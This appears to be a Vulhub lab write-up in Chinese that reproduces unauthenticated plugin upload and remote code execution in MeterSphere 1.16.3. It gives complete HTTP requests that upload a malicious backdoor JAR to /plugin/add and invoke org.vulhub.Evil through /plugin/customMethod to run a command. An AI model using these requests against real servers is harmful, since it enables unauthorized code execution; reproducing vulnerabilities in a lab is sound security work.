


# MeterSphere 插件接口未授权访问及远程代码执行

MeterSphere是基于GPLv3协议的一站式的开源持续测试平台。在其1.16.3版本及以前，插件相关管理功能未授权访问，导致攻击者可以通过上传插件的方式在服务器中执行任意代码。

参考连接：

- <https://xz.aliyun.com/t/10772>

## 漏洞环境

执行如下命令启动一个MeterSphere 1.16.3服务器：

```
docker compose up -d
```

MeterSphere初始化成功后，访问`http://your-ip:8081`即可跳转到默认登录页面。

## 漏洞复现

首先，我们访问`http://your-ip:8081/plugin/list`可见成功返回插件信息（虽然此时插件为空），说明`/plugin/*`接口存在未授权访问问题，可以利用。


利用漏洞前，需要准备一个恶意MeterSphere插件。Vulhub提供了一个已经编译好的[插件](https://github.com/vulhub/metersphere-plugin-Backdoor/releases/tag/v1.1.0)以供测试（**请勿在非授权环境下测试**）。

将恶意插件使用如下数据包上传：

```
POST /plugin/add HTTP/1.1
Host: localhost:8081
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.75 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryJV2KX1EL5qmKWXsd
Content-Length: 11985

------WebKitFormBoundaryJV2KX1EL5qmKWXsd
Content-Disposition: form-data; name="file"; filename="Evil.jar"

[Paste your jar file]
------WebKitFormBoundaryJV2KX1EL5qmKWXsd--
```



> **如果使用Burpsuite来复现漏洞，你需要注意数据包编码问题，否则可能将无法复现。**

虽然这次上传会返回错误信息，但实际上恶意JAR包已经成功被添加进系统ClassLoader中。

发送如下数据包来执行`org.vulhub.Evil`类中的恶意代码：

```
POST /plugin/customMethod HTTP/1.1
Host: localhost:8081
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.75 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 89

{
  "entry": "org.vulhub.Evil",
  "request": "id"
}
```


